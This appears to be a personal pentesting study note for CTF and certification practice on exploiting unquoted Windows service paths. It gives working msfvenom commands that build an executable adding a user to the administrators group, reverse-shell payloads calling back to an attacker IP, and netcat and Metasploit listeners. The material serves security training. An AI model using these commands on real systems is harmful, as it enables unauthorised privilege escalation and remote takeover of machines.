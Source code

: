#Windows #PrivEsc #UnquotedServicePaths #sc #msfconsole #meterpreter #MSFvenom 
==common PrivEsc on CTFs/certificates!==
## **Detection**

Windows VM

1. Open command prompt and type: `sc qc unquotedsvc`
2. Notice that the “`BINARY_PATH_NAME`” field displays a path that is not confined between quotes.

## **Exploitation**

Kali VM

1. Open command prompt and type: `msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe`
	1. For reverse tcp shell NON meterpreter: `msfvenom -p windows/shell/reverse_tcp LHOST=10.2.1.119 -f exe -o common.exe`
		1. listener: `nc -lnvp 4444` 
	2. For reverse tcp meterpreter shell: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.2.1.119 -f exe -o common.exe`
		1. listener: `exploit/multi/handler`
2. Copy the generated file, `common.exe`, to the Windows VM.

Windows VM

1. Place `common.exe` in ‘`C:\Program Files\Unquoted Path Service`’.
2. Open command prompt and type: `sc start unquotedsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

For additional practice, it is recommended to attempt the TryHackMe room [Steel Mountain](https://tryhackme.com/room/steelmountain)

